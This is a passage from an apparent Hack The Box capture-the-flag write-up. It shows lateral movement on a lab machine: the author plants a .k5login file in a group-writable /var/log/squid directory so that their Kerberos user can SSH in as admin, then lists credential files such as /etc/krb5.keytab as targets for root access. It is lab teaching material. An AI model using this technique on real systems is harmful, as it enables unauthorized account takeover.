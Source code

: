 At first glance we cannot do much here, lets check what is inside **/var/log/squid** not forgetting that we are in an account that is in the **squid group**
```
cmd: ls -la /var/log/squid
ls: cannot open directory '/var/log/squid': Permission denied

cmd: ls -la /var/log
drwx-wx---.  2 admin  squid      41 Dec 24 06:36 squid
```

Suprisingly, we **cannot read** whatever is inside but we can **write and execute** <br>

The initial idea was to generate an **SSH** key locally and create an **authorized_keys** file in order to login but after further testing i came out to the conclusion that it is not allowed/enabled <br>

So i went searching for **"kerberos grant other user permission"**, and found [this](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-user/Granting-Access-to-Your-Account.html)
```sql
If you need to give someone access to log into your account, you can do so through Kerberos, without telling the person your password. Simply create a file called .k5login in your home directory

--- snip ---
jennifer@ATHENA.MIT.EDU
david@EXAMPLE.COM

--- snip ---
```

This exactly what we needed to get admin access just by authorizing our current user to ssh into it. We just need to do the following
```bash
cmd: vi .k5login
j.nakazawa@REALCORP.HTB

cmd: cp .k5login /var/log/squid/
```

Now, if there are a lot of logs, it might take a while to complete the execution (i even needed to reset the machine to clear the logs). But when it finishes the execution we can connect to admin, via ssh, in our local machine
```bash
cmd: ssh admin@10.10.10.224
cmd: whoami && id
admin
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Now onto root !! <br>
```
-rw-r-----. 1 root squid 3236 Dec 21 08:09 /etc/squid/squid.conf
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab

/home/admin/.gnupg/trustdb.gpg

/.bash_history
```
